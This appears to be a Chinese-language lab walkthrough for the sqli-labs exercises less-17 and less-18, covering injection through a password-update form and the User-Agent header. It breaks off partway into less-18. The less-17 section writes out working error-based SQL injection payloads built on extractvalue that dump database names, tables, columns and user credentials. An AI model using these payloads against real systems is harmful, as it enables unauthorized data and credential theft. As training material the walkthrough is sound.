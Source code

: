 

## less-17

##### 注入类型

update字符型报错注入

##### 输入点：

updata修改密码输入 `admin`     `123'` 回显如下。所在输入点在new password

![image-20201110164512920](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114706.png)

##### 输出点：

输入`admin`  `123'#` 无回显。所以可以通过加`'`来闭合前面的语句，再自己构造新的语句来注入。

![image-20201110164637870](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114707.png)

##### 注入方式

以为会回显报错信息，所以可以使用extractvalue报错注入来进行SQL注入

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:123' and extractvalue(1,concat(0x7e,(select database()),0x7e))#`
- 爆数据表`payload:123' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'))#`
- 爆字段`payload:123' and extractvalue(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'))#` 右：`id=123' and extractvalue(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32))#`
- 爆数据`payload:123' and extractvalue(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e))#` `payload:123' and extractvalue(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32))#`

## less-18

##### 注入类型

http头部注入

##### 输入点：

经过尝试发现在user-agent中传入值会有回显(用户名和密码都是要正确的才行，admin/admin)

![image-20201112150208590](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114708.png)

##### 输出点：

使用BP工具修改其user-agent的值为`aaa`传入，页面回显如下。所以可以判断后台语句有插入user-agent于是在user-agent中使用报错注入。

![image-20201112150537578](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114709.png)

##### 注入方式：
